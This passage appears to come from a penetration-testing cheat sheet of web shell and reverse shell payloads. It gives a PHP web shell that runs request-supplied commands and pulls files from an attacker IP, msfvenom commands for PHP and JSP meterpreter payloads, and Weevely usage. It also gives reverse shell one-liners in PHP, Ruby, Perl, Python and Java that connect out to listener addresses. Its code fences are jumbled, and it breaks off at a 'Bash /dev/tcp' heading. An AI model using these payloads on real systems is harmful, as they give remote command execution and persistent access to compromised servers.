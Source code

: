 ```
<?php
 if (isset($_REQUEST['fupload'])) {
  file_put_contents($_REQUEST['fupload'], file_get_contents("http://yourIP/" . $_REQUEST['fupload']));
 };
 if (isset($_REQUEST['cmd'])) {
  echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
 }
?>
```
### * **PHP Meterpreter**
- We can create a php meterpreter shell, run a exploit handler on msf, upload the payload on the server and wait for the connection.
```
                   - msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 -f raw -o /tmp/payload.php
                   ```
### * **PHP Reverse Shell**
                - TIP:   This code assumes that the TCP connection uses file descriptor 3. This worked on my test system. If it doesn’t work, try 4, 5, 6
                ```
                   - php -r '$sock=fsockopen("192.168.56.101",1337);exec("/bin/sh -i <&3 >&3 2>&3");'
                - The above can be connected by listening at port 1337 by using nc
                ```
### Weevely

```
            - Weevely also generates a webshell
               - weevely generate password /tmp/payload.php
            - which can be called by
               - weevely http://192.168.1.2/location_of_payload password
            - However, it wasn't as useful as php meterpreter or reverse shell.
            ```
### Ruby
```
            - Code:
               - ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
               ```
### Perl
```
               - perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
### Python
```
               - python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
### Java
```
               r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
### JSP
```
               - msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.110.129 LPORT=4444 -f war > runme.war
```
### Bash /dev/tcp
```